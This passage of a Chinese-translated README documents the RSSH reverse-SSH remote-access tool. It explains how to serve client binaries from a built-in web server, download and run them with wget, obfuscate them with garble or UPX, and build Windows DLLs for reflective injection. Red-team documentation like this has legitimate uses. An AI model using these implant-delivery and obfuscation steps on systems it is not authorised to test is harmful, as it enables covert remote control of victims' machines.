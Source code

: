 ### 内置网络服务器

RSSH 服务器还可以在为客户机二进制文件提供服务的 RSSH 服务器监听器所在的端口上运行 HTTP 服务器。服务器必须放在项目`bin/`文件夹中，因为它需要找到客户机源。

```
./server --webserver :3232

# Generate an unnamed link
ssh your.rssh.server.com -p 3232

catcher$ link -h

link [OPTIONS]
Link will compile a client and serve the resulting binary on a link which is returned.
This requires the web server component has been enabled.
	-t	Set number of minutes link exists for (default is one time use)
	-s	Set homeserver address, defaults to server --external_address if set, or server listen address if not.
	-l	List currently active download links
	-r	Remove download link
	--goos	Set the target build operating system (default to runtime GOOS)
	--goarch	Set the target build architecture (default to runtime GOARCH)
	--name	Set link name
	--shared-object	Generate shared object file
  --fingerprint Set RSSH server fingerprint will default to server public key
  --upx   Use upx to compress the final binary (requires upx to be installed)
  --garble	Use garble to obfuscate the binary (requires garble to be installed)

# Build a client binary
catcher$ link --name test
http://your.rssh.server.com:3232/test

```

然后你可以下载如下:

```
wget http://your.rssh.server.com:3232/test
chmod +x test
./test
```

### Windows DLL 生成

您可以将客户端编译成 DLL，加载类似于[Invoke-reflective peinjection](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)的东西。这将需要一个交叉编译器，如果你在 linux 上这样做，使用`mingw-w64-gcc`。

```
CC=x86_64-w64-mingw32-gcc GOOS=windows RSSH_HOMESERVER=192.168.1.1:2343 make client_dll
```

当 RSSH 服务器启用了 web 服务器时，您也可以使用 link 命令编译它:

```
./server --webserver :3232

# Generate an unnamed link
ssh your.rssh.server.com -p 3232

catcher$ link --name windows_dll --shared-object --goos windows
http://your.rssh.server.com:3232/windows_dll

```
